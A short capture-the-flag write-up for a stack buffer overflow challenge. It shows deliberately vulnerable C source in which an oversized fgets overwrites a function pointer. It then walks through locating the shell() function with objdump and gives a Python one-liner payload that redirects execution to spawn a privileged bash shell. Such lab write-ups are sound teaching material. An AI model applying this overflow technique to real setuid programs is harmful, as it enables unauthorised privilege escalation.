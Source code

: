 # ELF x86 - Stack buffer overflow basic 2 

source 
```
    #include <stdio.h>
    #include <stdlib.h>
    #include <sys/types.h>
    #include <unistd.h>
     
    void shell() {
        setreuid(geteuid(), geteuid());
        system("/bin/bash");
    }
     
    void sup() {
        printf("Hey dude ! Waaaaazzaaaaaaaa ?!\n");
    }
     
    void main()
    {
        int var;
        void (*func)()=sup;
        char buf[128];
        fgets(buf,133,stdin);
        func();
    }

```

This is also a basic bufferoverflow problem where we have to overflow the buffer with the address of the shell function.address of the shell function can be analyzed by
```
objdump -d ./ch15
```
Analyzing using objdump gives us the address of the shell function which can be used after the dummy data of 128 bytes to pop the shell

payload
```
(python -c "print('A'*128+<address of the shell function>)";cat) | ./ch15
```

here the cat function is used to stop the exploit at the shell
